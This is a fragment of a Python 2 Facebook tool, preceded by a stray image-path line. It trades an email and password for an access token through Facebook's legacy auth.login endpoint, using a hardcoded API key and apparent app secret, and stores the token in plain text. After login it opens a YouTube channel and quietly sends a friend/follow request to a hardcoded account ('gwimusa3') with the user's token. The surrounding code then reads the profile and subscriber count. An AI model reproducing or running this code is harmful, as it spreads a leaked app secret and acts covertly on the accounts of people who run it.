 				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;36;40m[✓] Login Successful...'
				os.system('xdg-open https://www.youtube.com/channel/UCsdJQbRf0xpvwaDu1rqgJuA')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;97m[!] There is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;97m[!] Your Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;97mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\033[1;97m[!] Token invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
		ots = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)
		b = json.loads(ots.text)
		sub = str(b['summary']['total_count'])
	except KeyError:
		os.system('clear')
		print"\033[1;97mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\033[1;97mThere is no internet connection"
		keluar()
	os.system("clear")
